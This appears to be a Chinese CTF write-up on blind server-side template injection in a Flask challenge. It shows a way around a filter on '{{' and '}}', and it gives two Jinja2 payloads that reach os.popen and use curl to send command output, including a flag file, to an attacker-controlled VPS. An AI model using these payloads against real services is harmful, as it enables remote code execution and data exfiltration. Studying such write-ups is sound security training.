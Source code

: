 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Q52S7TjIxHrMttR23aO7UWkRfcvsTmqcHO3zcHjCmKLnkuSwlgSJKiag/640?wx_fmt=png)

nctf-flask-plus-4  

没有回显的 SSTI
----------

当目标存在 SSTI 漏洞但是没有 payload 执行的回显时，我们可以使用 `os.popen` 和 `curl` 将执行结果外带出来。

例如下面这道题。进入题目后，会让你输入一个姓名然后将其输出：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Q4ZKe59mRwR7xSDHmvib0kMK0t1C8wSc45gaHfrn800icqib1gTgz1Hsyw/640?wx_fmt=png)

经测试目标存在 SSTI 漏洞，但是过滤了 `{{` 和 `}}`，我们可以使用 `{%print(......)%}` 的形式来绕过。

```
{%print(''.__class__)%}
```

但是执行后却没有任何回显了，所以我们还得换一条路子。这里我们使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 外带数据的方法。

首先在自己 vps 上面开启监听：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QP4U49y3bRn1lx03nv7j6HGibo88icy2nD3X8CmpkCbqHDrmpcUdPpmibQ/640?wx_fmt=png)

然后执行如下 payload 在根目录里面寻找 flag：

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `ls /|grep flag`') %}1{% endif %}
```

如下图所示，发现 flag 文件：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Q02aCsC7g8tqmBuq88MJWiaSl7eibJ02DZxV5cKQibBlb3jCEyZHiceslZw/640?wx_fmt=png)image-20210306202250548

执行如下 payload 读取 flag：

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `cat /flag_1s_Hera`') %}1{% endif %}
```

读取成功：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9QIdic8NNqmkppAz8DjYkXSAGAzKHyztugeKUv9zAK6uGgNqkrkIGmSDw/640?wx_fmt=png)image-20210306202147549

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

本月报名可以参加抽奖送暗夜精灵 6Pro 笔记本电脑的优惠活动  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvouibfico2qhUHkxIvX2u13s7zzLMaFdWAhC1MTl3xzjjPth3bLibSZtzN9KGsEWibPgYw55Lkm5VuKthibQ/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247496998&idx=1&sn=da047300e19463fc88fcd3e76fda4203&chksm=ec1ca019db6b290f06c736843c2713464a65e6b6dbeac9699abf0b0a34d5ef442de4654d8308&scene=21#wechat_redirect)

**点赞，转发，在看**

原创投稿作者：WHOAMI

文章首发在先知社区

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)